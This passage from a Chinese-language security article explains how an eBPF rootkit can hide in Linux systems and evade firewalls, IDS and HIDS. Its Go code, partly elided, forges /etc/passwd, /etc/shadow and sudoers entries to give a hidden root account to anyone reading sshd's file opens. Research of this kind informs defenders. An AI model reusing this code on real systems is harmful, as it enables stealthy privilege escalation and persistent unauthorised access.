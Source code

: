 2. 普通用户：ubuntu，IP为172.16.71.3。
    
3. 被入侵服务器：vm-ubuntu，IP为172.16.71.4。开放nginx web 80端口；开放SSHD 22端口，并设定iptables规则只允许内网IP访问。
    

  

**· 危害**

这个rootkit不主动创建socket，借用其中一个网络发送包，把消息送达给后门使用者。对系统影响来说，只是一个不起眼的小网络响应。在万千HTTP包里，根本定位不到。

1. iptables防火墙绕过 ：利用对外开放的80端口作为通讯隧道；
    
2. webIDS绕过：流量到达服务器后，并不传递给nginx；
    
3. NIDS绕过：入侵者流量在局域网之间流传并无异常，只是无法解密；
    
4. HIDS绕过：是否信任了防火墙，忽略了本机/局域网来源的SSHD登录？
    

  

 _**L**__**inux系统运行时恶意利用**_

云原生生态下，涌现大批基于eBPF技术实现的集群网络管理插件，比如Calico、cilium等。而业务实现网络管理服务是以容器化方式部署，且有需要给这些容器启用SYS_BPF_ADMIN权限以支持eBPF系统调用。这些服务的运行环境，也给攻击者留下一个完美的发挥空间。

**· 实现流程**

回顾eBPF的hook点，作用在syscall的kprobe、tracepoint事件类型，倘若用在后门rootkit场景，是十分可怕的。比如，修改内核态返回给用户态的数据，拦截阻断用户态行为等为所欲为。而更可怕的是，常见的HIDS都是基于内核态或者用户态做行为监控，这恰恰就绕开了大部分HIDS的监控，且不产生任何日志，简直细思极恐、不寒而栗。

  

**tracepoint事件类型hook**

在SSHD应用中，当用户登录时，会读取/etc/passwd等文件。用户态sshd程序，调用open、read等系统调用，让内核去硬件磁盘上检索数据，再返回数据给sshd进程。

  

**用户态生成payload**

用户态实现/etc/passwd、/etc/shadow等文件payload的生成，并通过eBPF的RewriteConstants机制，完成对elf .rodata的字段值替换。

```python
 1import "github.com/ehids/ebpfmanager" 2 3//  通过elf的常量替换方式传递数据 4func (e *MBPFContainerEscape) constantEditor() []manager.ConstantEditor { 5    var username = RandString(9) 6    var password = RandString(9) 7    var s = RandString(8) 8 9    salt := []byte(fmt.Sprintf("$6$%s", s))10    // use salt to hash user-supplied password11    c := sha512_crypt.New()12    hash, err := c.Generate([]byte(password), salt)1314    var m = map[string]interface{}{}15    res := make([]byte, PAYLOAD_LEN)16    var payload = fmt.Sprintf("%s ALL=(ALL:ALL) NOPASSWD:ALL #", username)17    copy(res, payload)18    m["payload"] = res19    m["payload_len"] = uint32(len(payload))2021    // 生成passwd字符串22    var payload_passwd = fmt.Sprintf("%s:x:0:0:root:/root:/bin/bash\n", username)23    // 生成shadow字符串24    var payload_shadow = fmt.Sprintf("%s:%s:18982:0:99999:7:::\n", username, hash)2526    // eBPF RewriteContants27    var editor = []manager.ConstantEditor{28        {29            Name:          "payload",30            Value:         m["payload"],31            FailOnMissing: true,32        },33        {34            Name:          "payload_len",35            Value:         m["payload_len"],36            FailOnMissing: true,37            },38    }39    return editor40}4142func (this *MBPFContainerEscape) setupManagers() {43    this.bpfManager = &manager.Manager{44        Probes: []*manager.Probe{45            {46                Section:          "tracepoint/syscalls/sys_enter_openat",47                EbpfFuncName:     "handle_openat_enter",48                AttachToFuncName: "sys_enter_openat",49            },50            ...51        },5253        Maps: []*manager.Map{54            {55                Name: "events",56            },57        },58    }5960    this.bpfManagerOptions = manager.Options{61        ...62        // 填充 RewriteContants 对应map63        ConstantEditors: this.constantEditor(),64    }65}
```
